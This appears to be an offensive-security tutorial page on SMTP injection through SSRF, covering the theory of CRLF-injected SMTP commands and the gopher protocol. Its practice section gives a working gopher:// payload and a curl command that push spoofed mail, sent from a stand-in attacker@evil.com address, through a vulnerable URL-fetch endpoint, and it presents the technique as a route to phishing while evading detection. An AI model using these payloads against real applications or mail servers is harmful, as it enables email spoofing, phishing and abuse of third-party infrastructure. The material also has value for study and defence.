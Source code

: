 ```yaml
---
title: Understanding and Exploiting SMTP Injection
description: Learn how SMTP Injection can be used to exploit vulnerabilities for command
  execution and email spoofing.
keywords:
- SMTP Injection
- SSRF
- Email Spoofing
- Command Execution
- gopher protocol
- SMTP commands
- cybersecurity
---
```


# SMTP Injection

## Context

SMTP Injection is a technique used in offensive cybersecurity to exploit vulnerabilities in web applications that can relay SMTP commands without proper sanitization. This exploitation often involves using Server-Side Request Forgery (SSRF) to execute commands on mail servers, potentially leading to email spoofing and unauthorized command execution.

## Theory

### SMTP Command Injection Fundamentals

SMTP Injection is a malicious exploitation where attackers manipulate SMTP commands through SSRF-enabled pathways. This can result in unauthorized email sending or other mail server command executions. The core principle is to exploit the lack of input sanitization in web applications that interact with SMTP servers, allowing the attacker to inject commands that the server then executes.

### Key SMTP Commands for Injection

The primary SMTP commands involved in injection attacks are `MAIL FROM`, `RCPT TO`, and `DATA`. These commands are typically injected by crafting payloads that use CRLF sequences to break out of expected data and append additional SMTP instructions. This allows an attacker to chain together multiple commands in a single SSRF request, leading to complex exploits.

### Gopher Protocol as an SSRF Vector for SMTP

The gopher protocol stands out in SSRF attacks due to its ability to transmit arbitrary TCP payloads. By encoding SMTP commands within gopher URLs, attackers can leverage SSRF vulnerabilities to inject these commands into a victim SMTP server, bypassing most traditional security mechanisms that focus on HTTP or other standard web protocols.

### Email Spoofing via SMTP Injection

SMTP Injection not only facilitates command execution but also enables email spoofing. By injecting commands to set `MAIL FROM` and `RCPT TO` headers, attackers can control both the sender and recipient identities in the emails sent by the compromised SMTP server. This type of manipulation can be used for phishing attacks or spreading malware under the guise of a trusted sender.

## Practice

### SMTP Injection via SSRF using gopher://

To successfully execute SMTP Injection via SSRF, follow these instructions:

- **Identify an SSRF Endpoint:**
  Locate a web application feature that allows fetching of remote URLs. Common features include tools for generating PDFs from web content or webhook testing interfaces that accept arbitrary URLs.

- **Craft the Payload:**

  ```http
  gopher://smtp.target.com:25/_MAIL%20FROM:<attacker@evil.com>%0d%0aRCPT%20TO:<victim@target.com>%0d%0aDATA%0d%0aSubject:%20Pwned%0d%0a%0d%0aThis%20is%20a%20test%20email%20via%20SMTP%20injection.%0d%0a.%0d%0a
  ```

  This payload sends a spoofed email from the attacker’s fake address to the victim, demonstrating email control through injection.

- **Trigger the SSRF:**

  ```bash
  curl -X POST -d 'url=gopher://smtp.target.com:25/_MAIL%20FROM:<attacker@evil.com>%0d%0aRCPT%20TO:<victim@target.com>%0d%0aDATA%0d%0aSubject:%20Pwned%0d%0a%0d%0aThis%20is%20a%20test%20email%20via%20SMTP%20injection.%0d%0a.%0d%0a' https://vulnerable-app.local/fetch-url
  ```

  By posting this data to the vulnerable application's URL-fetching endpoint, you can execute SMTP commands on the target’s mail server. This generates an email from the attack vector without being detected by typical security controls.

The outcome of this approach allows you to execute arbitrary SMTP commands on the target mail server, opening the door to email spoofing and potentially further exploits if additional services are running on the same mail server.

## Tools

- **curl**
- **Burp Suite**